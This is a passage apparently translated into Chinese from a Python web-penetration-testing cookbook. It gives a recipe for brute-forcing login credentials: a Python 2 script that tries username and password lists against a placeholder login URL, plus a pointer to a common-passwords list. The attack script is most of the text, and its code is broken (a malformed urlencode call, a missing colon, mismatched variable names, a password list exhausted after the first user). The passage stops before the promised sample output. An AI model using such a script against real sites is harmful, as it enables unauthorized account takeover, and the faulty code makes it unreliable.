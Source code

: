 暴力破解可能不是最优雅的解决方案，但它将自动化可能是一项单调的任务。通过使用自动化，您可以更快地完成任务，或者至少可以让自己有时间同时处理其他事情。

## 准备工作

要使用此方法，您需要一个要测试的用户名列表，还需要一个密码列表。虽然这不是暴力破解的真正定义，但它会减少您要测试的组合数量。

### 注意

如果您没有密码列表可用，网上有许多可用的列表，例如 GitHub 上的前 10000 个最常见密码，链接在[`github.com/neo/discourse_heroku/blob/master/lib/common_passwords/10k-common-passwords.txt`](https://github.com/neo/discourse_heroku/blob/master/lib/common_passwords/10k-common-passwords.txt)。

## 操作步骤…

以下代码显示了如何实现此方法的示例：

```py
#brute force passwords
import sys
import urllib
import urllib2

if len(sys.argv) !=3:
    print "usage: %s userlist passwordlist" % (sys.argv[0])
    sys.exit(0)

filename1=str(sys.argv[1])
filename2=str(sys.argv[2])
userlist = open(filename1,'r')
passwordlist = open(filename2,'r')
url = "http://www.vulnerablesite.com/login.html"
foundusers = []
FailStr="Incorrect User or Password"

for user in userlist:
  for password in passwordlist:
    data = urllib.urlencode({"username="user&"password="password})
    request = urllib2.urlopen(url,data)
    response = request.read()
    if(response.find(FailStr)<0)
      foundcreds.append(user+":"+password)
    request.close()

if len(foundcreds)>0:
  print "Found User and Password combinations:\n"
  for name in foundcreds:
    print name+"\n"
else:
  print "No users found\n"
```

以下是运行脚本时产生的输出示例：
